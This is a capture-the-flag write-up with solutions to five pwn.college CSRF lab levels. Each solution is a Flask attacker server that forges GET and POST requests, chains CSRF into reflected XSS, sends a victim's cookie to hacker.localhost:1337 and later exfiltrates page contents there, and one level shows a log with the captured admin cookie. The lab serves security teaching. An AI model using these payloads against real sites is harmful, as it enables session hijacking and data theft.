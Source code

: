 ```yaml
---
tags: ["Web Security", "Cross Site Request Forgery"]
title: "CSRF - Cross Site Request Forgery"
description: CSRF - Cross Site Request Forgery
reference: https://pwn.college/intro-to-cybersecurity/web-security/
---
```


# 1

## Description

You've used XSS to inject JavaScript to cause the victim to make HTTP requests. But what if there is no XSS? Can you just "inject" the HTTP requests directly?

Shockingly, the answer is yes. The web was designed to enable interconnectivity across many different websites. Sites can embed images from other sites, link to other sites, and even redirect to other sites. All of this flexibility represents some serious security risks, and there is almost nothing preventing a malicious website from simply directly causing a victim visitor to make potentially sensitive requests, such as (in our case) a GET request to http://challenge.localhost/publish!

This style of forging requests across sites is called Cross Site Request Forgery, or CSRF for short.

Note that I said almost nothing prevents this. The Same-origin Policy was created in the 1990s, when the web was still young, to (try to) mitigate this problem. SOP prevents a site at one Origin (say, http://www.hacker.com or, in our case, http://hacker.localhost:1337) from interacting in certain security-critical ways with sites at other Origins (say, http://www.asu.edu or, in our case, http://challenge.localhost/). SOP prevents some common CSRF vectors (e.g., when using JavaScript to make a requests across Origins, cookies will not be sent!), but there are plenty of SOP-avoiding ways to, e.g., make GET requests with cookies intact (such as full-on redirects).

In this level, pwnpost has fixed its XSS issues (at least for the admin user). You'll need to use CSRF to publish the flag post! The /challenge/victim of this level will log into pwnpost (http://challenge.localhost/) and will then visit an evil site that you can set up (http://hacker.localhost:1337/). hacker.localhost points to your local workspace, but you will need to set up a web server to serve an HTTP request on port 1337 yourself. Again, this can be done with nc or with a python server (for example, by using http.server or simply adapting the challenge server code itself!). Because these sites will have different Origins, SOP protections will apply, so be careful about how you forge the request!

## Solution

The server will cause the victim redirect to the endpoint that we want him to visit.

```python
#!/opt/pwn.college/python

import tempfile
import flask
import os

app = flask.Flask(__name__)

app.config['WTF_CSRF_ENABLED'] = False


@app.route("/", methods=["GET"])
def challenge_get():
    return flask.redirect("http://challenge.localhost:80/publish", code=301)

app.run("127.0.0.1", 1337)
```

---

# 2

## Description

Recall that requests that originate from JavaScript run into the Same-Origin Policy, which slightly complicated our CSRF in the previous level. You figured out how to make a GET request without JavaScript. Can you do the same for POST?

Recall that a typical POST request is a result of either a JavaScript-invoked request (no good for SOP) or an HTML form submission. You'll need to do the latter. Of course, the /challenge/victim won't click the Submit button for you --- you'll have to figure out how to do that yourself (HINT: JavaScript can click that button; the request will still count as originating from the form!).

Go POST-CSRF to the flag!

## Solution

1. cause the victim get to the endpoint `/r`
2. the `/r` endpoint will redirect the client to `http://challenge.localhost:80/publish` with the `POST` method

```python
#!/opt/pwn.college/python

import tempfile
import flask
import os

app = flask.Flask(__name__)

app.config['WTF_CSRF_ENABLED'] = False

@app.route("/", methods=["GET"])
def root():
    return """
    <html>
    <body onload="document.forms[0].submit()">
        <form action="http://hacker.localhost:1337/r" method="post">
        </form>
    </body>
    </html>
    """

@app.route("/r", methods=["POST"])
def redirect():

    return flask.redirect("http://challenge.localhost:80/publish", code=307)

app.run("127.0.0.1", 1337)
```

---

# 3

## Description

Let's start putting a few things together... A CSRF can lead to many things, including other injections! Use the CSRF in this level to trigger a XSS and invoke an alert("PWNED") somewhere in http://challenge.localhost!

HINT: You will likely want to use JavaScript on your http://hacker.localhost:1337 page to send a GET request with <script> tags in a URL parameter. Be careful: if you encode this JavaScript in your HTML, your <script> tag will have the word </script> in a string (the URL parameter). This string </script> will actually be parsed by your browser as the closing tag of your page's actual <script> tag, and all hell will break loose.

If you encounter this error, I recommend dynamically building that string (e.g., "</s"+"cript>") in the JavaScript that runs on http://hacker.localhost:1337.

## Solution

```python
#!/opt/pwn.college/python

import tempfile
import flask
import os

app = flask.Flask(__name__)

app.config['WTF_CSRF_ENABLED'] = False

@app.route("/", methods=["GET"])
def root():
    return flask.redirect("http://challenge.localhost:80/ephemeral?msg=<script>alert('PWNED')</script> HTTP/1.1", code=301)

@app.route("/r", methods=["POST"])
def redirect():
    return flask.redirect("http://challenge.localhost:80/publish", code=307)

app.run("127.0.0.1", 1337)
```

---

# 4

## Description

Okay, now that you have the CSRF-to-XSS chain figured out, pull off a CSRF leading to an XSS leading to a cookie leak that'll allow you to log in and get the flag!

HINT: Your solution might have two levels of JavaScript: one that runs on your http://hacker.localhost:1337 page, and one that runs in the reflected XSS. We suggest testing the latter first, by manually triggering the page with that input and seeing the result. Furthermore, as this code might be complex, be VERY careful about URL encoding. For example, + will not be encoded to %2b by most URL encoders, but it is a special character in a URL and gets decoded to a space ( ). Needless to say, if you use + in your JavaScript, this can lead to complete havoc.

## Solution

1. Run a hacker server that the victim will be redirect to `challenge.local` site and send the `challenge.local` site cookie to the hacker by combing CSRF and XSS

```python
#!/opt/pwn.college/python

import tempfile
import flask
import os

app = flask.Flask(__name__)

app.config['WTF_CSRF_ENABLED'] = False

@app.route("/", methods=["GET"])
def root():
    return flask.redirect("http://challenge.localhost:80/ephemeral?msg=<script>fetch(`http://hacker.localhost:1337/r?=msg=${document.cookie}`" + ", { method: 'GET', credentials: 'include', mode: 'cors'});</script>", code=301)

@app.route("/r", methods=["GET"])
def redirect():
    return ""
```

2. Get the victim cookie from hacker server log

```
127.0.0.1 - - [29/Jul/2025 12:18:05] "GET / HTTP/1.1" 301 -
127.0.0.1 - - [29/Jul/2025 12:18:05] "GET /r?=msg=auth=admin|.QX5kzMzwCM0YjMyEzW} HTTP/1.1" 200 -
```

---

# 5

## Description

This level closes the loophole that allowed you to steal cookies from JavaScript. Cookies have a special setting called httponly, and when this is set, the cookie is only accessible in HTTP headers, and not through JavaScript. This is a security measure, aimed to prevent exactly the type of cookie pilfering that you have been doing. Luckily, Flask's default session cookie is set to be httponly, so you cannot steal it from JavaScript.

So, now how would you get the flag with your CSRF-to-XSS shenanigans? Luckily, you don't need the cookie! Once you have JavaScript execution within the page, you can freely fetch() other pages without worrying about the Same Origin Policy, since you now live in the same Origin. Use this, read the page with the flag, and win!

## Solution

Hacker Server Code:

1. redirect to the `/ephemeral` endpoint of `challenge.localhost` host with injected javascript
1. this script will fetch the html file of `/` endpoint of `challenge.localhost` host and then send it back to hacker server

```python
#!/opt/pwn.college/python

import tempfile
import flask
import os

app = flask.Flask(__name__)

app.config['WTF_CSRF_ENABLED'] = False

@app.route("/", methods=["GET", "POST"])
def root():
    if flask.request.method == "GET":
        xss = "<script> fetch(`/`) .then(res => res.text()) .then(content => { return fetch(`http://hacker.localhost:1337`, { method: `POST`, body: content }); }); </script>"
        return flask.redirect("http://challenge.localhost:80/ephemeral?msg=" + xss, code=301)


    data = flask.request.data.decode("utf-8")
    print(data)
    return ""
```
